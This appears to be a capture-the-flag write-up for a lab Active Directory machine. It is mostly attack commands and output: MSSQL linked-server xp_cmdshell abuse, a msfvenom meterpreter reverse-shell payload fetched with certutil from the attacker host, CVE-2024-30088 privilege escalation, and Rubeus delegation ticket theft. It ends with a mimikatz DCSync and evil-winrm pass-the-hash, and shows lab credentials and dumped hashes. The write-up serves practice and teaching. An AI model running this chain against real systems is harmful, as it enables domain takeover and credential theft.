

## INFO_

```
Machine Information
As is common in real life pentests, you will start the DarkZero box with credentials for the following account john.w / RFulUtONCOL!
```

```
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
2179/tcp open  vmrdp
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```


```
bloodhound-python --domain darkzero.htb --domain-controller dc01.darkzero.htb --nameserver 10.129.3.50 --username john.w --password 'RFulUtONCOL!' --collectionmethod all --dns-tcp --zip
```


## USER_ACCESS
### [MSSQL Linked Servers](https://www.adversify.co.uk/blog/escalating-privileges-via-linked-database-servers) 

```
SQL (darkzero\john.w  guest@master)> select srvname from master..sysservers

srvname             
-----------------   
DC01

DC02.darkzero.ext
```


```
EXEC ('EXEC xp_cmdshell "whoami"') AT [DC02.darkzero.ext];


--> The following commands will re enable xp_cmdshell through the two database links we have identified:

EXEC ('sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [DC02.darkzero.ext];

EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [DC02.darkzero.ext];

EXEC ('xp_cmdshell "whoami"') AT [DC02.darkzero.ext];

output                 
--------------------   
darkzero-ext\svc_sql   

NULL 


--> Upload venom to the victim DC02:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=1337 -f exe -o venom.exe 

EXEC ('xp_cmdshell "certutil.exe -urlcache -f http://10.10.14.40/venom.exe C:\users\svc_sql\Desktop\venom.exe"') AT [DC02.darkzero.ext];

--> Run it :

EXEC ('xp_cmdshell "C:\users\svc_sql\Desktop\venom.exe"') AT [DC02.darkzero.ext];
```

Now, We at DC02 we need to escalate our privileges !!

```
--> Bg the meterpreter session and run exploit suggestor :

use post/multi/recon/local_exploit_suggester

exploit/windows/local/cve_2024_30085_cloud_files:
exploit/windows/local/cve_2024_30088_authz_basep:
exploit/windows/local/cve_2024_35250_ks_driver:


--> Now Lets start the attack :

use windows/local/cve_2024_30088_authz_basep  [Set the options!]

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
DC02


meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6963aad8ba1150192f3ca6341355eb49:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:43e27ea2be22babce4fbcff3bc409a9d:::
svc_sql:1103:aad3b435b51404eeaad3b435b51404ee:816ccb849956b531db139346751db65f:::
DC02$:1000:aad3b435b51404eeaad3b435b51404ee:663a13eb19800202721db4225eadc38e:::
darkzero$:1105:aad3b435b51404eeaad3b435b51404ee:4276fdf209008f4988fa8c33d65a2f94:::
```


## PRIV_ESC - [Delegation](https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)

As this is AD box, there might be some cross-domain relations ; Lets explore those.

```
PS > Get-DomainTrust

SourceName      : darkzero.ext
TargetName      : darkzero.htb
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Bidirectional
```


DC02 is configured with non-constrained delegation [ DARKZERO.HTB <--> DARKZERO.EXT ] and with cross-domain trust between them.

```
PS > Get-DomainComputer -Unconstrained -Properties useraccountcontrol,dnshostname | fl

dnshostname        : DC02.darkzero.ext
useraccountcontrol : SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
```

We use Rubeus to listen to the LSASS memory with system privileges, and access the SMB share of DC02 from MSSQL Service 

```Dc02
Rubeus.exe monitor /interval:5 /nowrap
```


```attacker-
impacket-mssqlclient darkzero.htb/john.w:'RFulUtONCOL!'@10.129.252.83 -windows-auth
xp_dirtree \\DC02.darkzero.ext\ggg
```

Then get the TGT of DC01$@Darkzero.htb ; 




Then pass the ticket ! 

```
Rubeus.exe renew /ticket:<tgt> /ptt /nowrap
```

As, we got the ticket cached on this DC , we can export the ticket and dc_sync via impacket-secretsdump or even mimikatz in this instance !

```
mimikatz # lsadump::dcsync /domain:darkzero.htb /user:darkzero\Administrator
```

```winrm
evil-winrm -i darkzero.htb -u administrator -H 5917507bdf2ef2c2b0a869a1cba40726
```

